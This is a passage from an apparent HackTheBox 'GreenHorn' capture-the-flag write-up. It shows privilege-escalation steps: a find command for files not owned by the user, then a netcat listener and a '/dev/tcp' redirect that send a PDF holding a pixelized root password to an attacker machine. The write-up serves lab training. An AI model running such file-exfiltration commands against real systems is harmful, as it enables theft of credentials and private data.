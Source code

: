 ## From junior to root


### PDF file containing pixelized root password

Find files and home folder but not owned by current user

```bash
junior@greenhorn:~$ find $HOME -type f \( -not -user $(id -u -n) -o -not -group $(id -g -n) \)  -exec ls -lahtr {} + 2>/dev/null
-rw-r----- 1 root junior 60K Jun 11 14:39 '/home/junior/Using OpenVAS.pdf'
-rw-r----- 1 root junior  33 Jul 21 12:44  /home/junior/user.txt
```

Transfer the abnormal file `Using OpenVAS.pdf` to attacker machine

```bash
┌──(bravosec㉿fsociety)-[~/htb/GreenHorn]
└─$ nc -lvnp 443 > loot/'Using OpenVAS.pdf'
listening on [any] 443 ...
```

```bash
junior@greenhorn:~$ cat '/home/junior/Using OpenVAS.pdf' > /dev/tcp/10.10.14.72/443
```

> `Using OpenVAS.pdf`

![](/assets/obsidian/4574159b8f4c9dac748068687d984baf.png)
